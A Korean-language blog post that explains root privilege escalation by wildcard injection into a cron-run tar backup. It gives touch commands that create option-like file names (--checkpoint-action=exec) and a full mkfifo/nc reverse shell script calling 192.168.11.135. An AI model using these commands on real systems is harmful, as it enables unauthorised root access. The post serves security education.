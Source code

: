 ```yaml
---
layout: post
title: Wildcard(*) 인젝션에 대하여
subtitle: 와일드카드를 이용한 취약점
category: knowledge
thumbnail-img: /assets/img/knowledge/Studio_Wildcard_logo.png
tags: [knowledge, wildcard, tar, checkpoint]
author: Hong
---
```


와일드카드(*)를 이용한 권한상승 취약점에 대한 설명글.

# 시나리오
cron에 등록된 작업에 와일드카드를 이용한 명령어가 적혀있는 경우를 가정하여 권한상승 공격을 실시.

`cat /etc/crontab`을 했을 경우 아래와 같은 작업이 등록되어 있다고 가정한다.
```
# m h dom mon dow user  command
*/01 *  * * *   root    cd /home/vuln/backuplog && tar -zcf /backup/backuplog.tar.gz *
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```
여기서 주목해야 할 부분은 처음에 있는 tar 명령어와 root의 권한으로 실행된다는 점.

그리고 wildcard (*)에 의해서 디렉토리 휘하에 모든 파일이 tar에 인식된다는 점.

tar의 옵션중 --checkpoint-action을 이용하면 지정한 파일을 실행하는 것도 가능하다. 

위의 첫번째 작업을 해석하면, `/home/vuln/backuplog`라는 디렉토리로 이동 후, 그 디렉토리안에 있는 **모든 파일**을 하나로 묶어 `backup`디렉토리에 저장하고 있다.

# 취약점

이 점을 이용하여 디렉토리에 명령어를 파일처럼 만들어두어 tar가 실행하도록 한다.

[tar 체크포인트의 설명](https://www.gnu.org/software/tar/manual/html_section/checkpoints.html)

`touch -- '--checkpoint=1'`

`touch -- '--checkpoint-action=exec=sh rev.sh'`

위와 같이 두개의 명령어를 추가하여 리버스쉘을 실행하도록 유도할 수 있다.

`touch --`를 해야 명령어 형식의 파일을 만들 수 있다.
```
ls /home/vuln/backuplog
'--checkpoint-action=exec=sh rev.sh'  
'--checkpoint=1'   
bad.log   
good.log   
rev.sh
```
`backuplog`디렉토리를 보면 방금 만든 명령어 2개와 리버스쉘 파일, 그리고 good,bad라는 로그파일 두개가 있다.

rev.sh라는 실행파일은 리버스쉘을 위해 작성한 실행파일이다.
안에 내용물은 아래와 같다.
```
#! /bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|../Desktop/nc 192.168.11.135 8888 >/tmp/f
```

cron잡에 의해 위의 파일은 결국 다음과 같이 실행될 것이다.

`tar -zcf /backup/backuplog.tar.gz --checkpoint=1 --checkpoint-action=exec=sh rev.sh bad.log good.log rev.sh`
# 결과
crontab을 보면 백업 작업이 매분마다 실행되었기 때문에 호스트 머신에서 포트를 리스닝하고 기다리고있으면 cron잡이 실행되어 root로 타겟머신의 쉘이 열리게 된다.

![result](/assets/img/knowledge/revshell.png)
`id`명령어를 실행하면 root로 쉘을 취득한 것을 알 수 있다.